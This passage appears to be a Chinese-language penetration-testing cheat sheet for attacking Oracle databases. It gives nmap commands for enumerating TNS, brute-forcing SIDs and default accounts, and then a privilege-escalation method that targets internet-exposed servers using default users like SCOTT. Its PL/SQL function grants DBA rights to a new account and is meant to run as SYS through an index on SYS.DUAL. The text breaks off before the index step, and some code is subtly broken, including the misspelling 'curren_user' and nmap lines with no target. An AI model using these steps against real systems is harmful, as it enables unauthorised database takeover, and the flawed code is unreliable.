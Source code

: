 识别：

```text
tnscmd10g version -h TARGET
nmap --script=oracle-tns-version
```

#### 爆破Oracle账户

验证默认账户

```text
 nmap --script=oracle-sid-brute 
 nmap --script=oracle-brute
```

对Oracle TNS 运行nmap脚本：

```text
nmap -p 1521 -A TARGET
```

#### Oracle权限提升

利用条件：

* Oracle必须暴露在互联网上
* 使用默认账户，如scott

简明流程：

* 创建函数
* 创建表 SYS.DUAL  的索引
* 刚刚建立的索引执行了SCOTT.DBA\_X 函数
* 函数是被SYS用户执行的，因为表 SYS.DUAL 属于SYS用户
* 创建具有DBA权限的账户

下面的展示使用SCOTT用户，但其他默认的Oracle用户也是可以的。

**使用NMAP NSE脚本验证oracle数据库中的默认账户：**

```text
nmap --script=oracle-sid-brute 
nmap --script=oracle-brute
```

使用脆弱账号登陆（假设你发现了一个）。

**确认一个oracle用户的权限级别**

```text
SQL> select * from session_privs; 

SQL> CREATE OR REPLACE FUNCTION GETDBA(FOO varchar) return varchar deterministic authid 
curren_user is 
pragma autonomous_transaction; 
begin 
execute immediate 'grant dba to user1 identified by pass1';
commit;
return 'FOO';
end;
```
